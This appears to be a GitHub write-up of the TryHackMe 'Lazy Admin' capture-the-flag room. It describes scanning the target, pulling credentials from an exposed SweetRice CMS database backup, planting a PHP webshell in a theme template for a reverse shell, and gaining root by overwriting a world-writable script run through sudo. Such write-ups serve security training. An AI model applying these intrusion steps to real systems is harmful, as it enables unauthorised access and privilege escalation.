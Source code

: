 # TryHackMe-LazyAdmin-ctf-writeup

Writeup for Lazy Admin CTF available on https://www.tryhackme.com/ (https://www.tryhackme.com/room/lazyadmin)

Aliases:

VICTIM_IP = IP of deployed machine
MY_IP = My IP on TryHackMe VPN

## Information gathering

Nmap syn scan on host:

`nmap -A -Ss VICTIM_IP -oN nmap_syn_def`

Significant results:

PORT 22 -> OPEN, ssh
PORT 80 -> 80 Apache httpd 2.4.18 (Ubuntu)

Visiting VICTIM_IP:80 you can see the classic welcome page, no hints hidden in sourcecode

Gobuster scan on VICTIM_IP/ using dirb's wordlist "common.txt"

`gobuster dir -x php -u VICTIM_IP -w /usr/share/dirb/wordlists/common.txt`

Significant results:

/content

Visiting VICTIM_IP/content we find they are using a CMS called SweetRice, and states: 

"If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website."

Gobuster scan on VICTIM_IP:80 starting from /content

`gobuster dir -x php -u VICTIM_IP -w /usr/share/dirb/wordlists/common.txt`

Significant results:

/_themes
/as
/attachment
/images              
/inc                  
/index.php        
/index.php             
/js  

/as turns out to be a login page, wich I tried to bruteforce using hydra (with username "admin") with no success.

In /inc we find a mysql backup (http://VICTIM_IP/content/inc/mysql_backup/), download and open its content.

There is an INSERT sql statement wich declares a username (manager) and his password md5, you can just crack it on crackstation.

## Gaining first access

Using the credentials from the previous step you can manage to log in the cms. In the dashboard tab we see the button that "opens" the site.
Further looking, you can see a "theme" tab wich allow you modify the template of pages, including the home page.

At this point you can just add a php webshell in the home template and open the site.

If you're using kali you can a find a php webshell in /usr/share/webshells/ or you can just find one on the web, it is usually a php script wich only requires you to insert you ip and a port you'll be listening on.

Once you've inserted the webshell in the template start a nc listener on the port you indicated, start the site and visit /VICTIM_IP/content, you have gained a shell.

Using "find" you can easily locate the user.txt file, for root.txt we probably need to gain root privileges.

## Privilege escalation

Checking permissions on victims host:

`sudo -l`

Result: 

(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

It means we can run that script with sudo permission without being asked for a password. 

`cat /home/itguy/backup.pl`

Ouput:

system("sh", "/etc/copy.sh");

So the script is just calling a shell script

`cat /etc/copy.sh`

It's very useful to check this script permissions: 

`ls -la /etc/copy.sh`

Ouput:

-rw-r--rwx 1 root root 34 Jun 26 16:53 /etc/copy.sh

It means you can modify the script and execute is as sudo. From this point you can basically use this as you want, what I've done is:

`echo 'find / -name root.txt 2>x/dev/null' > /etc/copy.sh`

`sudo perl /home/itguy/backup.pl`

output:

/root/root.txt

`echo 'cat /root/root.txt' > copy.sh`

`sudo perl /home/itguy/backup.pl`

Output:

<root flag>
  
